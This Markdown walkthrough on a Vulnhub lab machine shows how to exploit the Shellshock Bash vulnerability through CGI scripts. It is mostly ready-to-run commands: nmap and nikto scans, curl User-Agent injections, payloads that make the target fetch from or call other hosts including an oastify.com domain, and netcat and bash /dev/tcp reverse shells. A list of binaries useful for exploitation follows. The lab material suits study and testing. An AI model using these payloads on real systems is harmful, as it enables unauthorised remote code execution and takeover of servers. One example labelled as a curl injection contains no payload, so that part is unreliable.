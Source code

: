 

---

# 🛠️ **Shellshock Vulnerability Exploitation - CGI-Bin** 🧑‍💻

This document explains how to exploit the **ShellShock vulnerability (CVE-2014-6271)** via CGI-bin scripts. The vulnerability arises due to improper handling of environment variables by **Bash**, which allows remote code execution when exploited.

---

## 📍 **Sumo: 1** 🖥️

[Sumo: 1 Vulnhub](https://www.vulnhub.com/entry/sumo-1,480/)

### **Setup and Reconnaissance** 🔍

### 🔎 **Scanning for Open Ports and Services** 📡

Start by scanning the target with **nmap** to identify open ports and services running on the machine:

```bash
nmap -v -p 80 -sT -sV -A 192.168.1.204
```

This command performs a basic scan on port 80 and attempts service version detection.

### 🛠️ **Aggressive Scan and HTTP Enumeration**

Use nmap with the **http-enum** script to gather more detailed information on the target web server:

```bash
nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.1.204
```

This command runs an aggressive scan and uses the **http-enum** script to identify potential **CGI** directories.

### 🚨 **Nikto Web Scanner**

Run **Nikto**, a web vulnerability scanner, to identify common issues and **CGI** directories:

```bash
nikto -C all -h http://192.168.1.5/
```

This checks for vulnerabilities across the target HTTP service on port 80.

---

### **Initial Test for ShellShock** 🐚

Test the vulnerability by injecting a command into the **User-Agent** header using **curl**:

```bash
GET /cgi-bin/test/test.cgi HTTP/1.1
Host: 192.168.1.201
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Response should be:

```text
HTTP/1.1 200 OK
Date: Wed, 30 Apr 2025 11:00:22 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 14
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html

CGI Default !
```

Test for ShellShock vulnerability:

```bash
curl -H "User-Agent: () { :; }; /bin/ping 192.168.1.6 -c 3" http://192.168.1.201/cgi-bin/test/test.cgi
```

This sends a payload that attempts to ping **192.168.1.6** from the vulnerable target machine.

### **Advanced ShellShock Exploitation with Nmap** 🔐

Use **nmap's ShellShock** script to test for this vulnerability on specific scripts or paths. You can also customize the payload with the `--script-args` option.

Testing **/cgi-bin/test.sh**:

```bash
nmap -v -p 80 --script=http-shellshock.nse --script-args uri=/cgi-bin/test.sh 192.168.1.201
```

Testing **/cgi-bin/admin.cgi**:

```bash
nmap -v -p 80 --script=http-shellshock.nse --script-args uri=/cgi-bin/admin.cgi 192.168.1.201
```

Running **Arbitrary Commands** (e.g., `ls`):

```bash
nmap -v -p 80 --script=http-shellshock.nse --script-args uri=/cgi-bin/test/test.cgi,cmd=ls 192.168.1.201
```

This runs the `ls` command to list the contents of the directory.

---

### **Network Monitoring** 📡

Use **tcpdump** to monitor traffic when executing ShellShock payloads. This can help confirm successful command execution or outbound network activity.

#### **Monitoring ICMP Traffic**:

```bash
tcpdump -n -i eth0 icmp
```

#### **Monitoring UDP Traffic on Port 53**:

```bash
tcpdump -n -i eth0 udp port 53
```

---

### **More Payload Examples** 🎯

* **Simple Ping Command** 🖱️

  ```bash
  curl -H "User-Agent: () { :; }; /bin/bash -c 'ping -c 3 192.168.1.6'" http://192.168.1.201/cgi-bin/test/test.cgi
  ```

* **Sending HTTP Request to Another Host** 🌐

  ```bash
  curl -H "User-Agent: () { :; }; /usr/bin/curl http://192.168.1.7" http://192.168.1.205/cgi-bin/test/test.cgi
  ```

* **DNS Request (for Outbound Connection)** 🔎

  ```bash
  curl -H "User-Agent: () { :; }; /usr/bin/dig 2eh9khiijmskivrozluqdqdqvhlapz.oastify.com @8.8.8.8" http://192.168.1.205/cgi-bin/test/test.cgi --proxy http://127.0.0.1:8080
  ```

* **WGET Command to Download Files** 💻

  ```bash
  curl -H "User-Agent: () { :; }; /bin/bash -c 'wget http://192.168.1.6'" http://192.168.1.201/cgi-bin/test/test.cgi
  ```

---

### **Reverse Shell Commands** 🐚💥

If you gain remote code execution, you can attempt to spawn a **reverse shell**.

* **Reverse Shell via Netcat** 🌐

  ```bash
  curl -H "User-Agent: () { :; }; /bin/bash -c 'nc 192.168.1.6 80'" http://192.168.1.201/cgi-bin/test/test.cgi
  ```

* **Reverse Shell via Bash** 💥

  ```bash
  curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -i >& /dev/tcp/192.168.1.7/443 0>&1" http://192.168.1.201/cgi-bin/test/test.cgi
  ```

---

### **Important Binaries for Exploitation** 🔑

The following binaries may be useful for exploitation if they are present on the vulnerable target:

* `/usr/bin/ping`
* `/usr/bin/wget`
* `/usr/bin/curl`
* `/usr/bin/nc`
* `/usr/bin/python`
* `/usr/bin/php`
* `/usr/bin/delv`
* `/usr/bin/dig`
* `/usr/bin/host`
* `/usr/bin/mdig`
* `/usr/bin/nslookup`
* `/usr/bin/nsupdate`

---

## **Conclusion** ✅

The **ShellShock vulnerability (CVE-2014-6271)** is a serious issue in which attackers can inject arbitrary commands into the **Bash** environment by manipulating HTTP headers, like **User-Agent**. Using tools like **nmap**, **curl**, and **tcpdump**, attackers can exploit this vulnerability to gain remote code execution or perform additional reconnaissance.

---


